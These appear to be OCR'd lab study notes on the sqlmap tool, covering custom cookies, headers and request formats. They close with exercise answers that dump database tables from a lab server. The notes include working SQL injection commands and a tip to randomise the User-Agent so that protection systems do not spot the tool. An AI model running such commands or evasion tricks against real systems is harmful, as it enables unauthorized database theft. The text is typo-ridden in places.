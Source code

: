 - Custom SQLmap Request:
For craft complicated request manually, there are numerous switches and option for fine-tune SQLmap. For example a cookie value:
`sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
Same like the opetion -H/--header:
`sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
We can apply the same option like --host, --referer, and -A/ --user-agent, which are used to specify to same HTTP headers value.
There is a switch --random-agent designed to randomly select a User-Agent header value form the included databes or regular browser values. This is a important
switch to remember, as mor and mor protection solutions automatically drop all HTTP trafic containingthe recogizable def SQL map user-agent value.
The --mobile switch can be used to imitate the smartphone by using the same header value.
`qlmap -u www.target.com --data='id=1' --method PUT`

- Custom HTTP Request:
Apart form the most common form-data POST body style [id=1], Sqlmap also supp JSON formatted [{"id":1}] and XML formatted Http request.
Support for these formats is implemented in a "relaxed" manner, there are no strict constraints on how parameter values are stored inside.
POST body is relatively simple and short the option --data will suffice.
    - cat req.txt
    - sqlmap -r req.txt

Exercise
Content tables:
- Case 2:
sqlmap -u http://94.237.61.48:51401/case2.php --dump --batch --forms --crawl=2
- Case 3:
sqlmap -r /home/../../../c.txt -p cookie --threads 10 --dump -T flag3 --batch
- Case 4:
sqlmap -r /home/../../../case4.txt --threads 10 --dump -T flag4 --batch
